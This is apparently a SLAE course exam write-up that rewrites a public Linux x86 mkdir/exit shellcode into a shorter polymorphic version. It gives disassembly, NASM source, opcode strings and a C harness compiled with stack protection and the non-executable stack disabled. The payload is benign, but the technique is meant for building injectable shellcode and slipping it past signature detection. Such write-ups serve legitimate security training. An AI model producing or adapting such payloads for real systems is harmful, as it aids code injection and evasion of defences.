 # Mkdir

<p style="text-align: justify;">Address of the original shellcode:</p>
- [http://shell-storm.org/shellcode/files/shellcode-542.php](http://shell-storm.org/shellcode/files/shellcode-542.php)

Original source code:
```c


The comment in that file is not correct.. I cut and pasted the shell code
in an existing c source and forgot to adjust it..

/*
 * This shellcode will do a mkdir() of 'hacked' and then an exit()
 * Written by zillion@safemode.org
 *
 */

char shellcode[]=
        "\xeb\x16\x5e\x31\xc0\x88\x46\x06\xb0\x27\x8d\x1e\x66\xb9\xed"
        "\x01\xcd\x80\xb0\x01\x31\xdb\xcd\x80\xe8\xe5\xff\xff\xff\x68"
        "\x61\x63\x6b\x65\x64\x23";


void main()
{

  int *ret;
  ret = (int *)&ret + 2;
  (*ret) = (int)shellcode;
}
```
To illustrate the appearance of the NASM code of the above shellcode, we will use the ndisaasm command.
```nasm
$ echo -ne "\xeb\x16\x5e\x31\xc0\x88\x46\x06\xb0\x27\x8d\x1e\x66\xb9\xed\x01\xcd\x80\xb0\x01\x31\xdb\xcd\x80\xe8\xe5\xff\xff\xff\x68\x61\x63\x6b\x65\x64\x23" | ndisasm -u -

00000000  EB16              jmp short 0x18
00000002  5E                pop esi
00000003  31C0              xor eax,eax
00000005  884606            mov [esi+0x6],al
00000008  B027              mov al,0x27
0000000A  8D1E              lea ebx,[esi]
0000000C  66B9ED01          mov cx,0x1ed
00000010  CD80              int 0x80
00000012  B001              mov al,0x1
00000014  31DB              xor ebx,ebx
00000016  CD80              int 0x80
00000018  E8E5FFFFFF        call dword 0x2
0000001D  6861636B65        push dword 0x656b6361
00000022  64                fs
00000023  23                db 0x23
```
<p style="text-align: justify;">I will try to present my polymorphic shellcode in parts (and finally the whole) in order to explain in detail the changes and improvements I have made.</p>

### sys_mkdir()

Original code:
```nasm
00000000  EB16              jmp short 0x18
00000002  5E                pop esi
00000003  31C0              xor eax,eax
00000005  884606            mov [esi+0x6],al
00000008  B027              mov al,0x27
0000000A  8D1E              lea ebx,[esi]
0000000C  66B9ED01          mov cx,0x1ed
00000010  CD80              int 0x80
[..]
00000018  E8E5FFFFFF        call dword 0x2        <--- Everything from here means "Push 'hacked#' on top of the stack
0000001D  6861636B65        push dword 0x656b6361
00000022  64                fs
00000023  23                db 0x23
```
Code after changes:
```nasm
	xor eax, eax        ; Clear the EAX register
	add al, 0x27        ; EAX contains the mkdir() system call identifier
	push edi            ; string terminator
	push word 0x6465    ; 'ed' in reverse
	push 0x6b636168     ; 'hack' in reverse
	mov ebx, esp        ; The ECX register contains the address of the arguments on the stack
	mov cx, 0x1ed	    ; file mode, hex(1ed) = dec(493) = oct(755)
	int 0x80            ; Execute system call
```
<p style="text-align: justify;">As we can see, I gave up the JMP-CALL-POP technique in favor of placing a string with the name of the created folder on the stack with a null being a string terminator. This trick allowed to save up to 8 bytes!
</p>

### sys_exit()

Original code:
```nasm
00000012  B001              mov al,0x1
00000014  31DB              xor ebx,ebx
00000016  CD80              int 0x80
```
Code after changes:
```nasm
  	add al,0x1          ; EAX = 0, so let's make it 1
	xor ebx, ebx        ; EBX should be 0
	int 0x80            ; Execute exit() syscall
```
<p style="text-align: justify;">Only one line has been changed - the ADD instruction was used instead of the MOV instruction.
</p>

### Full code after changes

```nasm
; Filename: 	mkdir.nasm
; Author:   	Jakub Heba
; Purpose:	SLAE Course & Exam

global _start			

section .text
_start:
	xor eax, eax        ; Clear the EAX register
	add al, 0x27        ; EAX contains the mkdir() system call identifier
	push edi            ; string terminator
	push word 0x6465    ; 'ed' in reverse
	push 0x6b636168     ; 'hack' in reverse
	mov ebx, esp        ; The ECX register contains the address of the arguments on the stack
	mov cx, 0x1ed	    ; file mode, hex(1ed) = dec(493) = oct(755)
	int 0x80            ; Execute system call
	add al,0x1          ; EAX = 0, so let's make it 1
	xor ebx, ebx        ; EBX should be 0
	int 0x80            ; Execute exit() syscall
```

### Compiling and Execution

```sh
$ ./compile.sh mkdir
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
"\x31\xc0\x04\x27\x57\x66\x68\x65\x64\x68\x68\x61\x63\x6b\x89\xe3\x66\xb9\xed\x01\xcd\x80\x04\x01\x31\xdb\xcd\x80"
```
<p style="text-align: justify;">Shellcode.c wrapper file content:</p>

```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\x04\x27\x57\x66\x68\x65\x64\x68\x68\x61\x63\x6b\x89\xe3\x66\xb9\xed\x01\xcd\x80\x04\x01\x31\xdb\xcd\x80";
main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
```
Execution:
```sh
$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
$ ls
compile.sh  shellcode  shellcode.c  template  template.nasm  template.o

$ ./shellcode 
Shellcode Length:  28

$ ls -la
total 44
drwxrwxr-x 3 slae slae 4096 Mar 30 12:45 .
drwxrwxr-x 5 slae slae 4096 Mar 25 05:33 ..
-rwxrwxr-x 1 slae slae  310 Mar 25 13:41 compile.sh
-rw------- 1 slae slae  710 Mar 25 16:00 .gdb_history
drwxr-xr-x 2 root root 4096 Mar 30 12:45 hacked           <------
-rwxr-xr-x 1 root root 7462 Mar 30 12:44 shellcode
-rw-rw-r-- 1 slae slae  287 Mar 30 12:43 shellcode.c
-rwxr-xr-x 1 root root  534 Mar 30 12:43 template
-rw-rw-r-- 1 slae slae  232 Mar 25 16:05 template.nasm
-rw-rw-r-- 1 slae slae  448 Mar 30 12:43 template.o
```

### Summary

Original shellcode length:

- **36 bytes**

Length of polymorphic shellcode:

- **28 bytes**

Difference in length:

- **~22% shorter!**

### Pwned.
